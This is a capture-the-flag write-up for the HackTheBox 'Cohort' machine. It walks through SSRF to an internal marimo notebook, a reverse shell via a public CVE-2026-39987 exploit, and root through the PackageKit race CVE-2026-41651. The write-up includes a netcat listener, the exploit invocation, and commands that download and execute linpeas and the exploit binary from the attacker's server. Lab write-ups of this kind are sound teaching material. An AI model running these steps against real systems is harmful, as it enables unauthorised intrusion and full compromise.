## Machine Summary

- **Name:** Cohort
- **Platform:** HackTheBox
- **OS:** Linux
- **Difficulty:** Easy
- **XP Reward:** 585
- **Key Vulnerability:** TOCTOU Race condition vulnerability leads to local privilege escalation in `PackageKit`(CVE-2026-41651).

---

First, add the machine IP to `/etc/hosts` for easier access:

```bash
echo "<MACHINE_IP> cohort.htb" | sudo tee -a /etc/hosts
```

For initial enumeration, I use `nmap` for scanning open ports on target:

```bash
sudo nmap -sC -sV -vv -p- -T3 --open cohort.htb
```

We have 3 open ports, one for SSH and two for HTTP and HTTPS:

```text
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp  open  http     syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://cohort.htb/
443/tcp open  ssl/http syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_http-title: Cohort Analytics
|_http-server-header: nginx/1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Issuer: commonName=cohort.htb/organizationName=Cohort Analytics
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-06-01T18:47:07
| Not valid after:  2126-05-08T18:47:07
| MD5:     2e50 cc1d 45e6 73fd 12c5 9e21 82f2 c0ae
| SHA-1:   7e85 23e7 63eb 6541 a236 a388 fdc5 2514 8ca9 8e8c
| SHA-256: b5a8 18c7 eb3c 1923 8381 2665 afcb 2e69 85e7 b6f4 84e2 5378 205d b746 e58c b39f
| -----BEGIN CERTIFICATE-----
| MIIDaDCCAlCgAwIBAgIUcO2V21Ijt3F8k9BT8lRtCdpBaMowDQYJKoZIhvcNAQEL
| BQAwMDEZMBcGA1UECgwQQ29ob3J0IEFuYWx5dGljczETMBEGA1UEAwwKY29ob3J0
| Lmh0YjAgFw0yNjA2MDExODQ3MDdaGA8yMTI2MDUwODE4NDcwN1owMDEZMBcGA1UE
| CgwQQ29ob3J0IEFuYWx5dGljczETMBEGA1UEAwwKY29ob3J0Lmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAI3Ug35PR2gUsdEyzT9owy89VEy4FGTr
| bWvwqb0sOTXKB5Sr0kU3vG6qV6mPhSuZExCAGySU9JTQNzNit6+EHoePqUyfSp5I
| jRRMQqX9ZoFQEO3B+47fXaUBk0HwOrTKOvWyWp7u827rjnPGi5GHfzYCRtlTNEiS
| JVNcb7hHQGMuhhGuLhWQZutV91moixFPPGcKuNJ4XTzQh9Hf2+aYfcdWRGaaJRAE
| wqN1TYKsLvkh3U9MEuvWRgC1MvliLwLrofb3h49anlnzztnX0CNQq35V3wpvMnF2
| B/mobKvfaXoGk5dOYUiHtQ1RNDzGUiRF8v32XEkq9P09fEbK/9waoNsCAwEAAaN4
| MHYwHQYDVR0OBBYEFDWDIUl+ylzJHRBJ5gwUS885lzknMB8GA1UdIwQYMBaAFDWD
| IUl+ylzJHRBJ5gwUS885lzknMA8GA1UdEwEB/wQFMAMBAf8wIwYDVR0RBBwwGoIK
| Y29ob3J0Lmh0YoIMKi5jb2hvcnQuaHRiMA0GCSqGSIb3DQEBCwUAA4IBAQAzZZLv
| 8IYaAbk+wy769gS5F27BXwBDCx/a+mVXpkV1DeVqmnplcKATFfFSMvcArRTBh0nR
| cNJpFTpDCmJPritZ8sSvaai10i8wb/n67MNwSs4qdjgfQlMHurS7BkYfYOfYfL2s
| BtYvOZEMfTIU4lXN/ZqPewuxxzhh/tEEfjmeJg8X45xVAILYQkYYpRe4GS7PkC+R
| SDrTEh5mNQ2HrGI28Ku22l6n2gzz5egPL/7fiL6/6QaobwmFOICon52UcTTIc/ff
| vs+rApxVr0JDcytHyULfCTyAf+99O/lLP1Fwb8Iy1Bni55ACCMh7Q8BDuD9fPlmb
| cUEVVpToHF1kC9vP
|_-----END CERTIFICATE-----
| http-methods: 
|_  Supported Methods: GET HEAD
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

According to the `nmap` scan, we know that the website name is "Cohort Analytics", and the website is hosted on `nginx` server version 1.24.0:



I have checked the source code but nothing interesting there. On the homepage, there is a button "Open Client Insights" which leads to a `portal.html` page:



Reading the information on the page, we know that the feature "Validate source" will read a file from passed URL and show the content of the file. Here, we can think of a SSRF vulnerability. I will create a `test.json` file on local machine:

```json
{ 
    "name": "test",
    "pass": "test"
}
```

Use `python3` to host the file on local server then pass the URL to the website:

```bash
python3 -m http.server 8000
```

Use Burp Suite proxy to analyze the request:


We can see that the request body contains 2 parameters `url` and `format`, send the request to Repeater and check the response:


The `preview` field contains the content of the file we created on local machine, so the idea here is abusing the `url` parameter to make the server issue requests to internal services. As the notes on website, we cannot use internal or loopback IP like "127.0.0.1" or "localhost", but we can bypass easily by using `cohort.htb` or exact IP address of the machine.

The problem now is that we do not know which specific files in the server we can read, so I use `feroxbuster` to enumerate endpoints:

```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u https://cohort.htb/ -s 200,301,302,401,403 --insecure
```

We have some endpoints here:


Try to pass each endpoint to Burp Suite Repeater and check the response, the 403 Forbidden one - `status` reveals interesting information:



Format the data from `preview` field:

```json
{
  "service": "cohort-edge",
  "status": "ok",
  "generated_by": "nginx",
  "upstreams": [
    {
      "name": "marketing",
      "host": "cohort.htb",
      "root": "/var/www/cohort"
    },
    {
      "name": "insights-api",
      "host": "cohort.htb",
      "path": "/api/",
      "target": "127.0.0.1:5000"
    },
    {
      "name": "notebooks",
      "host": "nb-1be3782a8afd3ad5.cohort.htb",
      "target": "127.0.0.1:8888",
      "note": "internal analyst workspace, not for external use"
    }
  ]
}
```

We have 3 internal upstreams here, the most interesting one is `notebooks` which is a notebook server running on port 8888 and domain `nb-1be3782a8afd3ad5.cohort.htb`. Moreover, the note says "not for external use", so this is surely the endpoint we need to abuse.

Add the subdomain to `/etc/hosts` for easier access:

```bash
echo "<MACHINE_IP> nb-1be3782a8afd3ad5.cohort.htb" | sudo tee -a /etc/hosts
```

Access the website, it is running on `marimo` - a Python notebook server. The page just displays an input box requires password for authentication:



I have checked the page source, scanned for enpoints but found nothing. I check the version of `marimo` using endpoint `/api/version` and it is `0.20.4`:

```bash
curl https://nb-1be3782a8afd3ad5.cohort.htb/api/version --insecure
```

Search for the version on Google and found this [advisory](https://github.com/advisories/GHSA-2679-6mx9-h9xc). `Marimo` 0.20.4 is affected by a critical RCE vulnerability, tracked as **CVE-2026-39987**.

## Summary of CVE-2026-39987

CVE-2026-39987 is a pre-authentication RCE in Marimo versions up to 0.20.4, caused by missing authentication checks on the /terminal/ws WebSocket endpoint. While other WebSocket endpoints validate authentication, /terminal/ws directly accepts the connection when Marimo is running in edit mode.

After accepting the connection, the server uses pty.fork() to create a pseudo-terminal and bridges it to the WebSocket, giving an unauthenticated attacker an interactive shell with the privileges of the Marimo process.

The attack flow can therefore be summarized as:

```text
Unauthenticated Attacker
        │
        │ WebSocket connection
        ▼
/terminal/ws
        │
        │ Missing authentication check
        ▼
WebSocket accepted
        │
        ▼
PTY created via pty.fork()
        │
        ▼
Interactive shell
        │
        ▼
Arbitrary command execution
```

The issue is classified as CWE-306: Missing Authentication for Critical Function. It is particularly dangerous when `marimo` is exposed on a network in edit mode, because authentication could be enabled while the terminal endpoint still remained reachable without valid credentials.

The vulnerability was fixed in marimo 0.23.0 by adding authentication validation to the terminal WebSocket route, ensuring that terminal access is subject to the same authentication requirements as other protected WebSocket endpoints.

---

You can read more details in the above advisory link. The advisory also has a PoC but I will use PoC on `exploit-db` for faster:


Download the script using this command:

```bash
searchsploit --mirror 52673
```

Or you can use visit this [link](https://www.exploit-db.com/exploits/52673) and copy the script. After downloading, using text editor to comment the header so the script will run normally. Before running the script, we need to start a listener for catching the reverse connection:

```bash
nc -nvlp 4444
```

The, run the script:

```bash
python3 52673.py -u https://nb-1be3782a8afd3ad5.cohort.htb --lhost <YOUR_LOCAL_IP> --lport 4444
```

We will have a shell with privilege of user `marimo`, here we get the user flag:



## PRIVILEGE ESCALATION

First we need to stabilize the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

CTRL+Z
stty raw -echo;fg
ENTER twice
```

I have tried some common ways like finding SUID binaries, checking capabilities, checking cron jobs, `sudo -l`, etc but none of them works. I decide to use `linpeas` - a script for automatic local enumeration on Linux systems, you can download it from [here](https://github.com/peass-ng/PEASS-ng/releases/download/20261002-82d9fad1/linpeas.sh).

Download `linpeas.sh` to our local machine and host a temporary webserver:

```bash
python3 -m http.server 8000
```

On the target machine, run:

```bash
cd /dev/shm
wget http://<YOUR_LOCAL_IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS identified that the machine was vulnerable to **Pack2TheRoot**, a privilege-escalation vulnerability affecting **PackageKit**, a package management service for Linux. This vulnerability is tracked as **CVE-2026-41651**.



## Summary of CVE-2026-41651

CVE-2026-41651 is a local privilege escalation vulnerability in **PackageKit** caused by a TOCTOU race condition in transaction flag handling. **PackageKit** runs as a root-level D-Bus service and relies on polkit to authorize package installation. However, `InstallFiles()` can overwrite cached_transaction_flags even after a transaction has started.

The vulnerability occurs because **PackageKit** does not properly prevent `InstallFiles()` from modifying transaction data after the transaction has already progressed. By changing the transaction flags after authorization, an unprivileged user can cause **PackageKit** to execute a package installation with root privileges. This allows an unprivileged local user to install a malicious package as root and execute its package installation script with root privileges.

**Attack Chain**:

```text
Unprivileged User 
        ↓ 
Create PackageKit transaction 
        ↓ 
InstallFiles(SIMULATE, dummy package) 
        ↓ 
polkit check is bypassed 
        ↓ 
InstallFiles(NONE, malicious package) 
        ↓ 
Transaction flags are overwritten 
        ↓ 
PackageKit executes the modified transaction as root 
        ↓ 
Malicious .deb postinst script executes as root 
        ↓
Root shell
```

The exploit is not simply a timing-dependent race that requires repeatedly winning a narrow window. The two `InstallFiles()` D-Bus calls are queued asynchronously before the GLib idle callback dispatches the transaction. This allows the second call to overwrite the cached transaction flags before the installation is executed.

The vulnerability affects **PackageKit** versions 1.0.2 through 1.3.4 and was fixed in 1.3.5.

---
For more details, you can read this [advisory](https://github.com/PackageKit/PackageKit/security/advisories/GHSA-f55j-vvr9-69xv). For faster, I will use the Poc in this [repository](https://github.com/Vozec/CVE-2026-41651) to exploit the vulnerability:

```bash
git clone https://github.com/Vozec/CVE-2026-41651.git
cd CVE-2026-41651
python3 -m http.server 9999
```

On target machine, download the script and run it:

```bash
wget http://<YOUR_LOCAL_IP>:9999/cve-2026-41651
chmod +x cve-2026-41651
./cve-2026-41651
```

Now we have successfully "privilege escalation" and gained root shell:


FINAL MISSION: get the root flag


---

## OVERALL ATTACK CHAIN

```text
External Attacker
      ↓
SSRF
      ↓
Internal Marimo Service
      ↓
CVE-2026-39987
      ↓
RCE as marimo
      ↓
CVE-2026-41651
      ↓
PackageKit LPE
      ↓
root
```
